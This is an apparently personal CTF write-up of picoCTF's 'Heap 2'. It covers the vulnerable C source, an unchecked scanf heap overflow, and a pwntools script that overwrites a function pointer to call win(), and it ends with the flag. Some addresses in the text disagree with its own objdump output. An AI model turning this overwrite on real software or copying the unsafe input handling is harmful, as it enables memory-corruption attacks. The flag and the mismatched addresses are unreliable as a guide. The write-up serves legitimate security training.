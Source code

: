 ```yaml
---
layout: post
title:  "Heap 2"
description: Utilizing a buffer overflow payload to override pointers
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you handle function pointers? Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall). Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

- Defines a constant for the max size of the flag string (`FLAGSIZE_MAX`).
- Two char pointers are declared: `x` is used to store a string, `input_data` stores user input- each being 5 bytes of size.
- A `win()` function is declared. It reads the flag from a file (`flag.txt`) and prints it for us. It uses a buffer to store said flag, and ensures that it doesn't exceed `FLAGSIZE_MAX`
- A `check_win()` is declared. It executes a function at the address stored in the `x` pointer.
- The `init()` function allocates memory for `input_data` and `x`, and initializes them with the strings "pico" and "bico" respectively.
- The `write_buffer()` function asks the use for input, which the function will then store in `input_data` using `scanf` (recall that `scanf` is unsafe, as it does not check for buffer overflows).


## Vulnerabilities
There's several vulnerabilities to note:
- The `write_buffer()` function is using `scanf` to read user input. `scanf` is unsecure and can be overflowed.
- The `input_data` and `x` buffer are allocated to hold only 5 bytes (4 bytes and then a null character)
- The `check_win()` function executes code at the memory address being stored in `x`.


## Connecting to the netcat listener
```terminal
> nc mimas.picoctf.net 55662

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x18572b0  ->   pico
+-------------+-----------+
[*]   0x18572d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
Again, `pico` and `bico` are the values inside the buffers (`input_data` & `x` respectively) that were declared at the start. Again, the reason they're declared to be 5 bytes, is to leave 1 byte for the null character.

Just like last time, we're given the addresses. The only thing that's different is that these are buffers instead of variables. Again, we'll subtract the address of `pico` with the address of `bico`.

`0x22b82b0 - 0x22b82d0 = -0x20`. When ran through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of 32. And because like last time, our initial hex value was negative, this means that `input_data` is 32 bytes behind `x`.


## The Plan

We now know that `input_data` is 32 bytes behind `x`. Additionally, we know that the `check_win()` function executes a function at the address stored in the `x` pointer. Finally we know that if a `win()` function is declared, it'll read us the flag.

*So, in short, we want to:* overflow to reach the `x` pointer, and then get it to hold a value identical to the address of the `win()` function, so that when `check_win()` is automatically ran, instead of executing *'bico'* at `x`, it will execute `win()`- thus giving us our flag.

## Solution

Before we write our payload, we need to know the address corresponding to `win()`. A simple [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html) will reveal this:

```terminal
> objdump -d ./chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

We now know that `win()` is at `0x080484b6`. **However**, because of C's memory layout, we need to consider C's memory layout. C uses a little-endian system to ensure that the least significant bytes are placed first. Because of this, we want to input the address of `win()` in little-endian order.

Our payload should look something like this:

```py
from pwn import *

# Connect to the remote service
p = remote("mimas.picoctf.net", 53827)

# Construct the payload
payload = b"AAAA" * 8 + b"\xa0\x11\x40\x00\x00\x00\x00\x00"

# Send option '2' to allocate the object
p.sendline(b"2")

# Wait for the server to ask for the buffer input
p.recvuntil(b"buffer:")

# Send the constructed payload
p.sendline(payload)

# Wait for the next prompt (choice menu)
p.recvuntil(b"choice:")

# Send option '4' to check for win condition
p.sendline(b"4")

# Print the final output (possibly the flag)
print(p.recvall())
```

flag: `picoCTF{and_down_the_road_we_go_dde41590}`